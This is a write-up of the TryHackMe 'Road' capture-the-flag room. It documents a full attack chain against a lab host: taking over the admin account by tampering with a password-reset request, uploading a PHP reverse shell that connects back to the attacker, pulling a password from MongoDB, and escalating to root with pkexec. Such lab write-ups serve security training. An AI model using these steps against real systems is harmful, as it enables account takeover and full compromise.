

[Home](../../index.md)

# TryHackMe: Road

https://tryhackme.com/room/road

---
## Port Scans

```
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ rustscan -a 10.10.49.152 -r 1-65535

Open 10.10.49.152:22
Open 10.10.49.152:80

┌──(kali㉿kali)-[~/tryhackme/road]
└─$ nmap -p 22,80 -sV -sC 10.10.49.152

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sky Couriers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## HTTP

`feroxbuster` provides a wealth of information.

```
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ sudo feroxbuster -u http://10.10.49.152 -w /usr/share/wordlists/dirb/common.txt -x txt,php

301        9l       28w      315c http://10.10.49.152/assets
301        9l       28w      319c http://10.10.49.152/assets/css
200      539l     1631w    19607c http://10.10.49.152/index.html
301        9l       28w      319c http://10.10.49.152/assets/img
301        9l       28w      318c http://10.10.49.152/assets/js
301        9l       28w      319c http://10.10.49.152/phpMyAdmin
403        9l       28w      278c http://10.10.49.152/server-status
301        9l       28w      330c http://10.10.49.152/assets/img/background
301        9l       28w      311c http://10.10.49.152/v2
200      565l     6616w    41123c http://10.10.49.152/phpMyAdmin/ChangeLog
301        9l       28w      323c http://10.10.49.152/phpMyAdmin/doc
301        9l       28w      328c http://10.10.49.152/phpMyAdmin/examples
200       98l      278w    22486c http://10.10.49.152/phpMyAdmin/favicon.ico
301        9l       28w      317c http://10.10.49.152/v2/admin
200      459l      991w        0c http://10.10.49.152/phpMyAdmin/index.php
301        9l       28w      322c http://10.10.49.152/phpMyAdmin/js
301        9l       28w      329c http://10.10.49.152/phpMyAdmin/libraries
200      339l     2968w    18092c http://10.10.49.152/phpMyAdmin/LICENSE
301        9l       28w      326c http://10.10.49.152/phpMyAdmin/locale
301        9l       28w      329c http://10.10.49.152/phpMyAdmin/locale/ar
301        9l       28w      329c http://10.10.49.152/phpMyAdmin/locale/az
301        9l       28w      329c http://10.10.49.152/phpMyAdmin/locale/be
301        9l       28w      329c http://10.10.49.152/phpMyAdmin/locale/bg
301        9l       28w      329c http://10.10.49.152/phpMyAdmin/locale/ca
301        9l       28w      328c http://10.10.49.152/phpMyAdmin/doc/html
301        9l       28w      336c http://10.10.49.152/phpMyAdmin/doc/html/_images
301        9l       28w      325c http://10.10.49.152/assets/js/vendor
200       52l      212w     1520c http://10.10.49.152/phpMyAdmin/README
302      553l     1087w        0c http://10.10.49.152/v2/index.php
200        2l        4w       26c http://10.10.49.152/phpMyAdmin/robots.txt
301        9l       28w      335c http://10.10.49.152/phpMyAdmin/libraries/certs
301        9l       28w      329c http://10.10.49.152/phpMyAdmin/locale/de
301        9l       28w      329c http://10.10.49.152/phpMyAdmin/locale/el
200        1l        4w       32c http://10.10.49.152/v2/admin/index.php
301        9l       28w      329c http://10.10.49.152/phpMyAdmin/templates
301        9l       28w      326c http://10.10.49.152/phpMyAdmin/themes
301        9l       28w      323c http://10.10.49.152/phpMyAdmin/tmp
301        9l       28w      329c http://10.10.49.152/phpMyAdmin/locale/fi
301        9l       28w      329c http://10.10.49.152/phpMyAdmin/locale/fr
301        9l       28w      326c http://10.10.49.152/phpMyAdmin/vendor
301        9l       28w      329c http://10.10.49.152/phpMyAdmin/locale/id
301        9l       28w      337c http://10.10.49.152/phpMyAdmin/vendor/phpmyadmin
```

---
## Web App - Foothold

`http://10.10.49.152/v2/admin/login.html` looks to be an admin login panel.

We can register a user.  I registered a user and found the password reset functionality.  It appears to keep us from changing the username.



However, if we look at the request in Burp, it appears this data is still sent with the rest of the request.  We may be able to change it.  

```
POST /v2/lostpassword.php HTTP/1.1
Host: 10.10.49.152
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------93426564938155739982273439383
Content-Length: 654
Origin: http://10.10.49.152
Connection: close
Referer: http://10.10.49.152/v2/ResetUser.php
Cookie: PHPSESSID=7ongqin7jjikbfl8lkaa4a7ok1; Bookings=0; Manifest=0; Pickup=0; Delivered=0; Delay=0; CODINR=0; POD=0; cu=0
Upgrade-Insecure-Requests: 1


-----------------------------93426564938155739982273439383
Content-Disposition: form-data; name="uname"


blah@blah.com
-----------------------------93426564938155739982273439383
Content-Disposition: form-data; name="npass"


blahblah
-----------------------------93426564938155739982273439383
Content-Disposition: form-data; name="cpass"


blahblah
-----------------------------93426564938155739982273439383
Content-Disposition: form-data; name="ci_csrf_token"


-----------------------------93426564938155739982273439383
Content-Disposition: form-data; name="send"


Submit
-----------------------------93426564938155739982273439383--
```

But what is the admin's username?

If we look around, there is a page where we can edit the profile.  It gives a username away at the bottom.


So it appears `admin@sky.thm` is the admin's username.  Let's edit and send our request in BurpSuite and see if we can reset their password.

```
-----------------------------405822916729765861991076770438
Content-Disposition: form-data; name="uname"


admin@sky.thm
```

After sending this, we are able to log in as the admin with the password we set!

---
## Web App - Shell

A lot of the functionality seems to be unimplemented or missing.  I thought first the Upload Manifest would be a good option, but the link doesn't work.

Going back to the user profile, there's a place at the bottom to upload a profile image.  Since we know the site is running PHP from the buster output, let's try to upload a PHP reverse shell.

We'll use [this one](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), making sure to change the IP and port in the script.

```
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ ls           
buster.txt
                                    
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
                                                                       
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ vim php-reverse-shell.php 
                                                                                                 
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ mv php-reverse-shell.php coolpic.php 
```

It took me a while to see where it uploaded to, but eventually I found a comment on the profile page (via BurpSuite, couldn't view source in the browser for some reason).

```
<!-- /v2/profileimages/ -->
```

Make sure to set your listener.  This gets us a shell as the web user.

```
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ nc -lvnp 4444                      
listening on [any] 4444 ...
connect to [10.13.18.7] from (UNKNOWN) [10.10.49.152] 53518
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:29:00 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@sky:/$ 
```

We also have permission to read teh first flag.

```
www-data@sky:/$ ls /home
ls /home
webdeveloper
www-data@sky:/$ ls /home/webdeveloper
ls /home/webdeveloper
user.txt
www-data@sky:/$ cat /home/webdeveloper/user.txt
cat /home/webdeveloper/user.txt
<redacted>
```

---
## Privilege Escalation

Enumerating with `ps aux` shows that mongodb is running.

```
mongodb      552  0.6  6.9 1498732 69344 ?       Ssl  19:43   0:24 /usr/bin/mongod --config /etc/mongod.conf
```

We can connect, and enumerating the database shows us the password for `webdeveloper`

```
$ mongo
MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("49dc43ac-6fcd-4a1a-ade1-89aa27906c37") }
MongoDB server version: 4.4.6
show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
use admin
switched to db admin
show tables
system.version
use backup
switched to db backup
show tables
collection
user
db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "<redacted>" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```

This allows us to SSH as `webdeveloper`

```
┌──(kali㉿kali)-[~/tryhackme/road]
└─$ ssh webdeveloper@10.10.49.152                                                              

Last login: Fri Oct  8 10:52:42 2021 from 192.168.0.105
webdeveloper@sky:~$ 
```

---
## Root

Checking our groups, we see that we are in the `sudo` group.

```
webdeveloper@sky:~$ groups
webdeveloper cdrom sudo dip plugdev
```

If we were in a GUI, this would allow us to escalate with `pkexec`.  Fortunately there is a workaround.

This requires us to use 2 SSH sessions.

Session 1

```
webdeveloper@sky:~$ echo $$
1098
```

Session 2

```
webdeveloper@sky:~$ pkttyagent -p 1098
```

Session 1

```
webdeveloper@sky:~$ pkexec /bin/bash
```

Session 2 (enter the password for `webdeveloper`)

```
==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===
Authentication is needed to run `/bin/bash' as the super user
Authenticating as: webdeveloper
Password: 
==== AUTHENTICATION COMPLETE ===
```

Session 1

```
root@sky:~# ls
root.txt
root@sky:~# cat root.txt
<redacted>
```